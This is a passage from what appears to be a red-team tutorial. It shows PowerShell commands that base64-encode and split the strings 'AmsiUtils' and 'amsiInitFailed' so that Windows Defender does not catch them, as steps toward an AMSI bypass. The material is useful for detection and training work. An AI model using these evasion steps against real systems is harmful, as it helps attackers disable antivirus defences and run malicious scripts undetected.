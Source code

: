 
![image](https://github.com/0xStarlight/0xStarlight/assets/59029171/ebc13c07-c4b0-4558-b66f-22276b30eeba)

+ Now we can do the same for *AmsiUtils* and *amsiInitFailed*

```powershell
PS:\> $Text = 'AmsiUtils';$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text);$EncodedText=[Convert]::ToBase64String($Bytes);$EncodedText
```

![image](https://github.com/0xStarlight/0xStarlight/assets/59029171/ac648e82-2d56-405f-ab8a-31e5d92a0485)

+ Windows Defender could still detect *AmsiUtils* encoded in base64. We can divide this into two pieces and concat them together to avoid getting detected.

```powershell
# Encoding Payload
PS:\> $Text = 'Amsi';$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text);$EncodedText=[Convert]::ToBase64String($Bytes);$EncodedText
PS:\> $Text = 'Utils';$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text);$EncodedText=[Convert]::ToBase64String($Bytes);$EncodedText

# Decoding Paylaod
PS:\> $([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('QQBtAHMAaQA=')))+$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('VQB0AGkAbABzAA==')))
```

![image](https://github.com/0xStarlight/0xStarlight/assets/59029171/d940fc02-53cf-4f34-b269-108d0c136a14)

+ We can see this way we have encoded *AmsiUtils* without triggering Defender
+ Lets try the same for *amsiInitFailed* by splitting it into 3 parts
  1. *amsi*
  2. *Init*
  3. *Failed*

```powershell
# Encoding Payload
PS:\> $Text = 'amsi';$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text);$EncodedText=[Convert]::ToBase64String($Bytes);$EncodedText
PS:\> $Text = 'Init';$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text);$EncodedText=[Convert]::ToBase64String($Bytes);$EncodedText
PS:\> $Text = 'Failed';$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text);$EncodedText=[Convert]::ToBase64String($Bytes);$EncodedText

# Decoding Paylaod
PS:\> $([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('YQBtAHMAaQA=')) + $([System.Text.Encoding]::Unicode.GetString($([System.Convert]::FromBase64String('SQBuAGkAdAA=')))) + $([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('RgBhAGkAbABlAGQA'))))
```

![image](https://github.com/0xStarlight/0xStarlight/assets/59029171/e4712ca9-4343-4e28-9d25-ef8eff1c64d2)

+ As we can see, we have encoded *amsiInitFailed* also without triggering Defender.
